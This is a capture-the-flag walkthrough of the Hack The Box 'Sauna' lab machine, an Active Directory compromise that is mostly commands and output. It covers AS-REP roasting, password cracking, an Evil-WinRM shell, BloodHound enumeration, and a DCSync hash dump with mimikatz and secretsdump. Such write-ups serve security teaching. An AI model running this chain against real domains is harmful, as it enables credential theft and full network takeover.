








# Recon

## Nmap
```console
root@kali:~$ nmap -sC -sV 10.10.10.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 22:24 EDT
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-18 09:29:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/17%Time=5F125D5E%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h05m04s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-07-18T09:31:53
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 317.26 seconds
```

## CrackMapExec
Running `enum4linux` didn't gave much so I tried CrackMapExec to get some info about this machine
```console
root@kali:~# crackmapexec smb 10.10.10.175
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

we get the domain name `EGOTISTICAL-BANK.LOCAL` that we already knew from the nmap result, we also get the hostname `SAUNA`

## Port 80



The home page doesn't have much but there is a hint at the bottom of the page


May be we can get a ticket using [`AS-REP Roasting`](https://blog.stealthbits.com/cracking-active-directory-passwords-with-as-rep-roasting/)   
for this attack we need usernames and we find the employee names on the `aboutUs` page



```
Fergus Smith
Hugo Bear
Steven Kerb
Shaun Coins
Bowie Taylor
Sophie Driver
```

## Usernames
The general format of usernames for a name `First Last` in windows is as follows
```
First.Last
FirstLast
F.Last
FLast
```

so I used the `multiple pointers` feature of `Sublime Text` to create usernames from the list of names all at once



# AS-REP Roasting
If a user has `Kerberos preauthentication` disabled, we can retrieve the user hash using AS-REP Roasting   
> [https://www.hackingarticles.in/as-rep-roasting/](https://www.hackingarticles.in/as-rep-roasting/)

## GetNPUsers.py
We will use the `GetNPUsers.py` script from Impacket for this attack
```console
root@kali:~# /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt 
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:5961d29fce031faf66511bbcea21594a$7ae75e942380dd6a2ac766f06a3860375a6d2965e39a1854fab0df512f43423c06ed60c7ffff1608ba69c57d8898192fd666b3e51c0c919c5995a2a07af05242256a9761d1d5ca09b979536a05a12e507bfc7057b874457f659e862fcd977d15b2aabfda17ee9eaa8cfdc5c9a7e96751b5b02968d656f68345fbbf9346889f69d8e693d0ef84818beb17344d38983e21d4b200a8ab15f2411fd1389cd79ea2e28665d7c5003d9f9bb4336c9efee864a7506b088c4b6758038119c4911e609b8205cd6252b70b6187deabe434fde280ce4a34cdd8fe127dda5824b7f974644ce295dd47d3e9fec1a907daecd34e7b0ef3ccc70656d03d86fdfd861c166e80c5d0
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

we got the hash for user `FSmith`, let try to crack it using JohnTheRipper

## JohnTheRipper
```console
root@kali:~# john fsmith.tgt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL)
1g 0:00:00:17 DONE (2020-07-17 23:08) 0.05675g/s 598127p/s 598127c/s 598127C/s Thraki43..Thehulk2008
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We successfully cracked the hash --> `FSmith:Thestrokes23`   
Now we can login using `Evil-WinRM`

# Evil-WinRM
## Shell as fsmith
```cmd
root@kali:~# evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
*Evil-WinRM* PS C:\Users\FSmith\Documents> dir ../desktop


    Directory: C:\Users\FSmith\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/23/2020  10:03 AM             34 user.txt


*Evil-WinRM* PS C:\Users\FSmith\Documents> cat ../desktop/user.txt
1b5520b98d97cf17f24122a55baf70cf
```

## Users
```cmd
*Evil-WinRM* PS C:\Users\FSmith\Documents> dir /users


    Directory: C:\users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/25/2020   1:05 PM                Administrator
d-----        1/23/2020   9:52 AM                FSmith
d-r---        1/22/2020   9:32 PM                Public
d-----        1/24/2020   4:05 PM                svc_loanmgr

```

# WinPEAS
I uploaded winPEAS.exe using the `upload` command of evil-winrm    
```cmd
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload /opt/winPEAS/winPEASexe/winPEAS/obj/x64/Release/winPEAS.exe
Info: Uploading /opt/winPEAS/winPEASexe/winPEAS/obj/x64/Release/winPEAS.exe to C:\Users\FSmith\Documents\winPEAS.exe

                                                             
Data: 322216 bytes of 322216 bytes copied

Info: Upload successful!
```

running winPEAS, we get the `AutoLogon Credentials` for `svc_loanmgr`  



`svc_loanmgr:Moneymakestheworldgoround!`

# BloodHound
Lets login as `svc_loanmgr` and run bloodhound to see if there are any escalation paths
```cmd
root@kali:~# evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> upload /opt/BloodHound/Ingestors/SharpHound.exe
Info: Uploading /opt/BloodHound/Ingestors/SharpHound.exe to C:\Users\svc_loanmgr\Documents\SharpHound.exe

                                                             
Data: 1111380 bytes of 1111380 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> .\SharpHound.exe
-----------------------------------------------
Initializing SharpHound at 4:58 PM on 7/18/2020
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain EGOTISTICAL-BANK.LOCAL using path CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
Status: 60 objects finished (+60 ì)/s -- Using 27 MB RAM
Enumeration finished in 00:00:00.4492158
Compressing data to .\20200718165801_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 4:58 PM on 7/18/2020! Happy Graphing!

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> ls


    Directory: C:\Users\svc_loanmgr\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/18/2020   4:58 PM           9095 20200718165801_BloodHound.zip
-a----        7/18/2020   4:57 PM         833536 SharpHound.exe
-a----        7/18/2020   4:58 PM          11122 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin


*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> download 20200718165801_BloodHound.zip
Info: Downloading C:\Users\svc_loanmgr\Documents\20200718165801_BloodHound.zip to 20200718165801_BloodHound.zip

                                                             
Info: Download successful!
```

Now lets start neo4j and bloodhound and drop the zip file in it
```console
root@kali:~# neo4j console
Active database: graph.db
Directories in use:
  home:         /usr/share/neo4j
  config:       /usr/share/neo4j/conf
  logs:         /usr/share/neo4j/logs
  plugins:      /usr/share/neo4j/plugins
  import:       /usr/share/neo4j/import
  data:         /usr/share/neo4j/data
  certificates: /usr/share/neo4j/certificates
  run:          /usr/share/neo4j/run
Starting Neo4j.
WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
2020-07-18 16:56:13.180+0000 INFO  ======== Neo4j 3.5.3 ========
2020-07-18 16:56:13.300+0000 INFO  Starting...
```

if we click on `Find Principals with DCSync Rights` under the queries tab, we will find that `svc_loanmgr` has `GetChanges` and `GetChangesAll` privilege on the domain which means that this user can dump user hashes



we can right click on the privilege arrow to see the help and abuse info for this privilege



according to the abuse info we can use mimikatz to dump password hash of any user

# DCSync Attack
In this attack the user pretends to be a Domain Controller and ask other DC's for user password data   
this can be done using `mimikatz` as well as `secretsdump.py` script from impacket
> [https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/](https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/)

## mimikatz
```cmd
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe                                                                                                      
Info: Uploading /usr/share/windows-resources/mimikatz/x64/mimikatz.exe to C:\Users\svc_loanmgr\Documents\mimikatz.exe                                                                                              
                                                                                                                                                                                                                   
                                                                                                                                                                                                                   
Data: 1675616 bytes of 1675616 bytes copied                                                                                                                                                                        
                                                                                                                                                                                                                   
Info: Upload successful!                                                                                                                                                                                           
                                                                                                                                                                                                                   
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> .\mimikatz.exe "lsadump::dcsync /user:Administrator"                                                                                                               
                                                                                                                                                                                                                   
  .#####.   mimikatz 2.2.0 (x64) #18362 Mar  8 2020 18:30:37                                                                                                                                                       
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                                                                                        
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                                                                                           
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                                                                                             
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                                                                                          
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                          
                                                                                                                                                                                                                   
mimikatz(commandline) # lsadump::dcsync /user:Administrator                                                                                                                                                        
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain                                                                                                                                                                   
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server                                                                                                                                                          
[DC] 'Administrator' will be the user account                                                                                                                                                                      
                                                                                                                                                                                                                   
Object RDN           : Administrator                                                                                                                                                                               
                                                                                                                                                                                                                   
** SAM ACCOUNT **                                                                                                                                                                                                  
                                                                                                                                                                                                                   
SAM Username         : Administrator                                                                                                                                                                               
Account Type         : 30000000 ( USER_OBJECT )                                                                                                                                                                    
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )                                                                                                                                              
Account expiration   :                                                                                                                                                                                             
Password last change : 1/24/2020 10:14:15 AM                                                                                                                                                                       
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500                                                                                                                                               
Object Relative ID   : 500                                                                                                                                                                                         
                                                                                                                                                                                                                   
Credentials:                                                                                                                                                                                                       
  Hash NTLM: d9485863c1e9e05851aa40cbb4ab9dff                                                                                                                                                                      
    ntlm- 0: d9485863c1e9e05851aa40cbb4ab9dff                                                                                                                                                                      
    ntlm- 1: 7facdc498ed1680c4fd1448319a8c04f                                                                                                                                                                      
    lm  - 0: ee8c50e6bc332970a8e8a632488f5211                                                                                                                                                                      
                                                                                                                                                                                                                   
Supplemental Credentials:                                                                                                                                                                                          
* Primary:NTLM-Strong-NTOWF *
    Random Value : caab2b641b39e342e0bdfcd150b1683e
                                                                                                                                                                                                                   
* Primary:Kerberos-Newer-Keys *                                                                                                                                                                                    
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator                                                                                                                                                             
    Default Iterations : 4096                                                                                                                                                                                      
    Credentials                                                                                                                                                                                                    
      aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031                                                                                                                  
      aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0                                                                                                                                                  
      des_cbc_md5       (4096) : 19d5f15d689b1ce5                                                                                                                                                                  
    OldCredentials                                                                                                                                                                                                 
      aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef                                                                                                                  
      aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
      des_cbc_md5       (4096) : d9379d13f7c15d1c

* Primary:Kerberos *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Credentials
      des_cbc_md5       : 19d5f15d689b1ce5
    OldCredentials
      des_cbc_md5       : d9379d13f7c15d1c

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  3fbea1ff422da035f1dc9b0ce45e84ea
    02  708091daa9db25abbd1d94246e4257e2
    03  417f2e40d5be8d436af749ed9fddb0b0
    04  3fbea1ff422da035f1dc9b0ce45e84ea
    05  50cb7cfb64edf83218804d934e30d431
    06  781dbcf7b8f9079382a1948f26f561ee
    07  4052111530264023a7d445957f5146e6
    08  8f4bffc5d94cc294272cd0c836e15c47
    09  0c81bc892ea87f7dd0f4a3a05b51f158
    10  f8c10a5bd37ea2568976d47ef12e55b9
    11  8f4bffc5d94cc294272cd0c836e15c47
    12  023b04503e3eef421de2fcaf8ba1297d
    13  613839caf0cf709da25991e2e5cb63cf
    14  16974c015c9905fb27e55a52dc14dfb0
    15  3c8af7ccd5e9bd131849990d6f18954b
    16  2b26fb63dcbf03fe68b67cdd2c72b6e6
    17  6eeda5f64e4adef4c299717eafbd2850
    18  3b32ec94978feeac76ba92b312114e2c
    19  b25058bc1ebfcac10605d39f65bff67f
    20  89e75cc6957728117eb1192e739e5235
    21  7e6d891c956f186006f07f15719a8a4e
    22  a2cada693715ecc5725a235d3439e6a2
    23  79e1db34d98ccd050b493138a3591683
    24  1f29ace4f232ebce1a60a48a45593205
    25  9233c8df5a28ee96900cc8b59a731923
    26  08c02557056f293aab47eccf1186c100
    27  695caa49e68da1ae78c1523b3442e230
    28  57d7b68bd2f06eae3ba10ca342e62a78
    29  3f14bb208435674e6a1cb8a957478c18
```

we got the NTLM hash for Administrator --> `d9485863c1e9e05851aa40cbb4ab9dff`

## secretsdump.py
This will dump the hashes of all the users on the domain
```console
root@kali:~# /usr/share/doc/python3-impacket/examples/secretsdump.py svc_loanmgr@10.10.10.175
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:a7689cc5799cdee8ace0c7c880b1efe3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
Administrator:des-cbc-md5:19d5f15d689b1ce5
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:5f39f2581b3bbb4c79cd2a8f56e7f3427e707bd3ba518a793825060a3c4e2ef3
SAUNA$:aes128-cts-hmac-sha1-96:c628107e9db1c3cb98b1661f60615124
